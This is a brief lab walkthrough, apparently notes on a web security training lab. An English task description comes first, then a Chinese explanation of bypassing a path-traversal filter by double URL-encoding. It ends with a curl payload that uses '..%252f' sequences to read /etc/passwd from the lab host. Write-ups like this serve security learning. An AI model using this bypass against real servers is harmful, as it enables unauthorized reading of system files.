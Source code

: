 # Lab: File path traversal, traversal sequences stripped with superfluous URL-decode

This lab contains a file path traversal vulnerability in the display of product images.

The application blocks input containing path traversal sequences. It then performs a URL-decode of the input before using it.

To solve the lab, retrieve the contents of the /etc/passwd file.

## LFI
* 這一題也差不多，只是這一題會給 urldecode，所以說先給一個 %25 decode 成 % 之後再 decode 一次變成 / 這樣就可以 bypass 他的 waf
```
payload = curl  https://acc31f591f9092a1c01f97d8006300e8.web-security-academy.net/image\?filename\=..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc/passwd
```